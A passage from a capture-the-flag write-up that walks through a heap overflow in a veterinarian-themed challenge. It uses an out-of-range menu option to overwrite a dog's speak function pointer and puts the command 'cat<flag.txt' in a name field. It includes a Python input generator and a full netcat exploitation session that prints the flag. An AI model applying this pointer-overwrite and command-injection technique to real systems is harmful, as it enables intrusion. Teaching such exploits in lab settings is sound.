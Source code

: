 ![Dog1 Heap](dog1_heap4.png)

We can see by this that if we enter 7 as the menu option we will be overwriting the Dog2 name pointer, and if we enter 8, we can overwrite the speak function pointer!

The location of the `dog3_speak` function is 0x080488b0. In decimal this is 134514864‬. If we change our input file to enter 8 for the menu, and this number as the number of fleas, we should be able to make the speak function for Dog2 to point at `dog3_speak`:
```
> python -c "print('A'*100 + 'B'*100 + '8 134514864')" > input.txt
```
We can see that this all works within IDA:

![Dog1 Heap](dog1_heap5.png)

We need to enter the `cat<flag.txt` as the second dog's name, so we'll need to enter the data manually. I tried this on the server:
```
> nc ctf.hackucf.org 7004
Hello. My name is Alice, and I am a veterinarian.
Your name is Bob now. You have two dogs.
What's your first dog's name?
fido
Okay! Your first dog's name is fido!
What's your second dog's name?
cat<flag.txt
Wow, cat<flag.txt is a great name for a strange dog!
So Bob, you say that your dog fido has fleas.
Where are fido's fleas?
[1] Head
[2] Back
[3] Belly
[4] Legs
[5] Tail
8
How many fleas does fido have there?
134514864
Thanks for the information, Bob!
I'll be sure to get that taken care of right away.


***************
*One day later*
***************

*ring ring*
Hey Bob, it's Alice. I just wanted to give you a call to let you know that all 134514864 of fido's fleas have been killed.
Also, your dogs are looking forward to seeing you again soon!
See?
fido says Woof! fido is a good boy.
cat<flag.txt says:
flag{<flag_was_here>}
```